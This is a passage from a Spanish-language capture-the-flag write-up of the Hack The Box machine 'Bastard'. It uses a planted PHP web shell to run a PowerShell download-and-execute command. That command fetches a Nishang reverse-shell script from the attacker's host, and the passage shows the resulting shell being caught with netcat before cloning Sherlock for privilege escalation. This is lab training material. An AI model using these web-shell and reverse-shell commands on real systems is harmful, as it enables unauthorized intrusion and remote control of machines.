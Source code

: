 Si accedemos al recurso que nos indica `http://10.10.10.9//k4miyo.php` y validamos que tenemos ejecución de comandos con nuestra variable `cmd`:

![""](/assets/images/htb-bastard/bastard-cmd.png)

Una vez teniendo ejecución de comandos, ahora si nos entablamos una reverse shell; por lo tanto, nos copiamos el archivo `Invoke-PowerShellTcp.ps1` a nuestro directorio de trabajo y al final del archivo agregamos al siguiente linea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443`

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Nos compartimos un servidor HTTP con python y nos ponemos en escucha a través del puerto 443. Una vez con esto, ejecutamos al siguiente linea (**Nota**: Utilizando powershell desde la parte nativa del sistema `
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe` para evitar problemas debido que nos encontremos un proceso diferente al soportado por el sistema operativo).

```bash
http://10.10.10.9//k4miyo.php?cmd=C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/PS.ps1')
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [08/Oct/2021 00:54:16] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49180
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54>
```

A este punto ya podemos visualizar la flag (user.txt). Nos queda escalar privilegios, por lo que para esta ocación, ocuparemos la herramienta [Sherlock](https://github.com/rasta-mouse/Sherlock), así que nos la descargamos.

```bash
❯ git clone https://github.com/rasta-mouse/Sherlock
Clonando en 'Sherlock'...
remote: Enumerating objects: 75, done.
remote: Total 75 (delta 0), reused 0 (delta 0), pack-reused 75
Recibiendo objetos: 100% (75/75), 33.97 KiB | 552.00 KiB/s, listo.
Resolviendo deltas: 100% (39/39), listo.
```
